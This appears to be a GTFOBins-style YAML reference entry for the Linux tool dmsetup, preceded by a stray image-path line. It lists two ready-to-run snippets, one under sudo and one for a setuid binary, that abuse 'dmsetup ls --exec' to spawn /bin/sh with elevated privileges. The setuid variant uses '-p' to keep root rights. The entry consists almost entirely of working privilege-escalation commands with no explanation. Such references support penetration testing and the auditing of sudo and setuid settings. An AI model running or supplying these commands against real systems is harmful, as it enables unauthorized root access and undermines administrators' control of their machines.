 functions:
  sudo:
    - code: |
        sudo dmsetup create base <<EOF
        0 3534848 linear /dev/loop0 94208
        EOF
        sudo dmsetup ls --exec '/bin/sh -s'
  suid:
    - code: |
        ./dmsetup create base <<EOF
        0 3534848 linear /dev/loop0 94208
        EOF
        ./dmsetup ls --exec '/bin/sh -p -s'
---
